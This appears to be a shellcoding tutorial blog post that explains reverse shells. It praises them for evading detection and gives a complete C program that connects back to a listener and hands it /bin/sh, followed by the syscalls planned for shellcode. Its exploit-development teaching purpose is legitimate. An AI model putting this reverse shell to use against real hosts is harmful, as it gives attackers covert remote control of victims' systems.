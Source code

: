 A reverse shell is similar to the bind shell that was disussed in the previous blog post. Reverse shells, as with bind shells, allow remote access through a network, but rather than having a listening port on the target host, you have the target host connect back to an attack host that has a listener set up. 

Reverse shells have multiple advantages to bind shells, particularly with evading detection and bypassing certain rule sets. Plus, having a port listening on a host that is not normal will, for the most part, trigger more alerts to system/network administrators. Whereas a reverse shell will just show up as a connection to an outside IP address,which will get caught less, especially with certain obfuscation techniques.

What a reverse shell looks like in C
------------------------------------

As with the last blog post, let's look at what a reverse shell looks like in C, to get a base template for what we need to achieve:

```c
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>


int main () {

	const char* ip = "127.0.0.1";	
	struct sockaddr_in addr;


	addr.sin_family = AF_INET;
	addr.sin_port = htons(4444);
	inet_aton(ip, &addr.sin_addr);

	int sockfd = socket(AF_INET, SOCK_STREAM, 0);
	connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

	for (int i = 0; i < 3;i++) {

		dup2(sockfd, i);
	}

	execve("/bin/sh", NULL, NULL);

	return 0;

}
```

This will more or less follow the same format and structure as the bind shell assignment, with a few new system calls (syscalls). See below the list of syscalls to be used in our shellcode:

- socket
- connect
- dup2
- execve

